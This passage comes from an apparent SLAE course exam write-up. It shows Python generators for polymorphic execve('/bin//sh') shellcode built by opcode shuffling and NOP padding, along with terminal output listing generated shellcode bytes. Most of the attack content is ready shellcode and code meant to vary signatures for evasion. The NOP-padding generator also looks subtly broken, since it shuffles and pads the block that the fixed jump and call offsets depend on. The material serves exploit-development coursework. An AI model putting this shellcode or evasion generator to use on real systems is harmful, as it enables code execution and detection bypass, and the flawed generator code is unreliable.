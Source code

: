 However, since the init part is very small here and we've got only one register
to setup, there are only 3 possible shellcodes using this strategy:

{%highlight asm%}
def exec_shuffle():
    init_blk =["\\x6a\\x0b", "\\x31\\xc9", "\\x31\\xd2"];
    shuffle(init_blk);

    return "".join(init_blk)+"\\x58\\xeb\\x03\\x5b\\xcd\\x80\\xe8\\xf8\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";
{%endhighlight%}
(
![Exec polymorphic shellcodes using opcode shuffle]({{site.url}}/assets/images/exec_shuffle.png)

The other shellcode sections can't be shuffled, so this is not a wise strategy
to create different polymorphic version of our obfuscated execve shellcode.

Here there are some shellcode generated this way:

{%highlight sh%}

thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 % ./exec_me.py -s
Shellcode:  \x31\xd2\x31\xc9\x6a\x0b\x58\xeb\x03\x5b\xcd\x80\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68
Length:  25
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 % ./exec_me.py -s
Shellcode:  \x31\xd2\x6a\x0b\x31\xc9\x58\xeb\x03\x5b\xcd\x80\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68
Length:  25
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 % ./exec_me.py -s
Shellcode:  \x31\xc9\x6a\x0b\x31\xd2\x58\xeb\x03\x5b\xcd\x80\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68
Length:  25
{%endhighlight%}

### NOP dope for exec

Here we've got 10 bytes to waste and a single NOP is 1 byte opcode, so we can
add \x90 ten times and in a very large number of ways.

However, please note that this strategy is very easy to detect and defeat.
Adding tons of NOPs make a clever analyist to easily detect there is some other
stuff under the wood.

However, since this is just a PoC for an exam, let's use this strategy also for
this shellcode.

{%highlight python%}
def exec_nop_dope():
    init_blk =["\\x6a\\x0b\\x58", "\\x31\\xc9", "\\x31\\xd2"];
    setup_blk=["\\x5b", "\\xcd\\x80", "\\xe8\\xf8\\xff\\xff\\xff"];

    n = randint(0, 10); 
    init_nop_blk = ["\\x90"]*(n/3)
    setup_nop_blk = ["\\x90"]*(n*2/3)

    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"\\xeb\\x03"+"".join(setup_blk)+"\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";
{%endhighlight%}
